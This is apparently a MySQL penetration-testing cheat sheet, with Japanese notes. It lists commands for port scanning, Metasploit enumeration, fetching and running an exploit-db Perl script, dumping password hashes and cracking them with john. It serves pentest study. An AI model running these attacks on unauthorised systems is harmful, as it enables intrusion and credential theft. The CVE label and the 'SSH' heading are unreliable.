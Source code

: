 # MySQL / Port 3306
MySQL is a relational database management system (RDBMS) based on Structured Query Language (SQL)

## Workflow
Provided that necessary credentials such as username and password is already found, or anonymous login is allowed.

1. Port scan with nmap
2. Enumerate useful information with several tools
3. Crack the password hash of a user
4. Access MySQL server with credentials


## Advance preparation
```
export rhost=[RHOST IP]
```

## Port scan
Check if port 3306 is open
```
sudo nmap -sS -sV -O $rhost
```

## Enumeration
### Metasploit (*1)
Execute arbitrary commands on the MySQL server
```
use auxiliary/admin/mysql/mysql_sql
```

### Nmap ([MySQL-Enum](https://nmap.org/nsedoc/scripts/mysql-enum.html)) (*2)
```
sudo nmap $rhost -vv --script=mysql-enum
```

### CVE : [2015-5615](https://www.exploit-db.com/exploits/23081) (*3)
mysql 4.x and below to a mysql 5.x server
```
wget https://www.exploit-db.com/raw/23081 -O /tmp/mysqlenum.pl
cd /tmp && perl mysqlenum.pl $rhost usernames.txt
```

To install Parallel::ForkManager:
```
sudo cpan Parallel::ForkManager
```

## Exploitation
### Metasploit
Dump the tables, and column names of the whole database (*1)
```
use auxiliary/scanner/mysql/mysql_schemadump
```

Obtain users' password hashes on the MySQL server (*1)
```
use auxiliary/scanner/mysql/mysql_hashdump
```

### Crack password hash
```
echo 'carl:*xxxxxxxxxxxxxxxxxxxxxxxxxxxxx' | tee hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### Access MySQL server with SSH
```
mysql -h $rhost -u [USERNAME] -p
```

To install MySQL client:
```
sudo apt install default-mysql-client
```

## Memo
*1 ユーザー名、パスワードがあらかじめわかっており、特定のユーザーでログインできる状態でないと失敗する。

*2 使い方は簡単だが、結果は信頼性に欠けるので注意。実行結果にリストアップされたアカウントはいずれもパスワードなしでログイン可能と表示されるが、実際にはそれだとアクセス拒否された。  

![スクリーンショット 2021-10-26 22 12 18](https://user-images.githubusercontent.com/39334151/138886104-c714cdc3-d6ec-49b8-bbf4-1d9bf556ca0e.png)  

*3 使い方は簡単だが、結果は信頼性に欠けるので注意。ダミーのユーザー名にもかかわらず、ユーザーが存在する旨の結果を返すことも多々ある。  

![スクリーンショット 2021-10-26 22 11 52](https://user-images.githubusercontent.com/39334151/138886012-c1fc9882-c9c4-43f7-8a55-c7d9fd4e0fa9.png)  

